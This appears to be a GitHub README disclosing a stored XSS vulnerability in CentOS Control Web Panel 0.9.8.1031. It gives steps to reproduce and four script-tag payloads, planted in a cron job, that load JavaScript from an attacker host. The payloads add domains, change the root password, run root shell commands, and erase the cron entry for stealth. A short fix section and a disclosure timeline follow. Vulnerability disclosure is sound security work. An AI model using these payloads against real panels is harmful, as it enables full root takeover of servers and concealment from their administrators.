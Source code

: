 Exploiting an XSS vulnerability in the CWP control panel and escalating the attack to change the root password...

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) Version 0.9.8.1031 - XSS to full root takeover
# Date                : 7 january 2021
# Exploit Author      : Chokri B.A.
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.1031
# Tested on           : CentOS 7 / CentOS 6
# CVE                 : #
```

# Description
A simple user can add/delete/modify any option on behalf of the root user, and even change the root's password via a stored XSS vulnerability.

#  Steps to Reproduce
1. Login into the CentOS Web Panel using user credential
2. Create a new cron job using your prefered XSS payload.
3. Login as root and navigate to the list of cronjobs
4. the XSS payload will get executed.

#  Escalating
I've created 2 examples on how you can escalate this attack to take control of the full server.

1. <b>PayloadAddDomain.js</b> : add this code as your cronjob, when the root user list the cronjobs, a new domain name will be added under the choosen user.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadAddDomain.js"></script>
```


2. <b>PayloadChangeRootPass.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to change to root's password and take control of the full server.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadChangeRootPass.js"></script>
```

3. <b>PayloadExecCmd.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to execute any shell command as the root user, you can create a new user with root privileges for examples ;)
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadExecCmd.js"></script>
```
4. <b>PayloadRemoveCron.js</b> add this code as your cronjob, when the root user list the cronjobs, the malicious code will be removed automatically from the cronjob's list. you can conbine this code wity any of the other codes to execute whatever you want and delete the XSS payload to be more stealthy.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadRemoveCron.js"></script>
```

5. You can perform any action you want as the root user. The only limit is your imagination....

#  Solution - Fix & Patch
The vulnerability can be patched by a secure parse and encode of the vulnerable input fields.
Disallow usage of special chars and restrict the parameter input to prevent application-side script code injection attacks.
Filter in the output error or the item listing the vulnerable location were the code executes.


#  Timeline

```
2021-01-07: Discovered the bug
2021-01-08: Reported to vendor
#: Vender accepted the vulnerability
#: The vulnerability has been fixed
#: Published
```

#  Demo
[![Video Demo](https://img.youtube.com/vi/5i30nfXxEc0/0.jpg)](https://www.youtube.com/watch?v=5i30nfXxEc0)
